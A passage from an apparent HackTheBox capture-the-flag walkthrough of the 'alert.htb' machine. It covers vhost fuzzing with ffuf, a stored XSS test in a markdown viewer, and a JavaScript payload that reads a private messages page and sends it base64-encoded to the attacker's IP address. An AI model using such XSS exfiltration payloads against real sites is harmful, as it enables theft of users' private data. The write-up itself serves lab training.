 ```terminal
 :: Header           : Host: FUZZ.alert.htb                                                    
 :: Follow redirects : false                                                                   
 :: Calibration      : false                                                                   
 :: Timeout          : 10                                                                                                                                                                     
 :: Threads          : 40                                                                                                                                                                     
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500       
 :: Filter           : Response words: 20                                                      
________________________________________________
                                                                                               
statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 119ms]
```

We found `statistics`, we add it to `/etc/hosts` file and navigate to it.

![stati](2.png)

We got basic HTTP authentication. We don't have any creds so let's check the markdown viewer.

I'll directly test for `XSS` in markdown using the following payload.

```markdown
# Sirius

<script>alert('XSS');</script>
```

![xss](3.png)

It worked!

The page also gives us a link to the file in the following form `http://alert.htb/visualizer.php?link_share=6752b59bdc9897.46797636.md`.

We need a way to send this to other people.

We have a contact page, let's see if they click links.

![links](4.png)

They do click links!

To exploit this, we can use the XSS to perform a CSRF.

There was a messages page we were not able to read, let's use the following script to read it.

```javascript
<script>
fetch("/index.php?page=messages", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.10.16.8/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
```
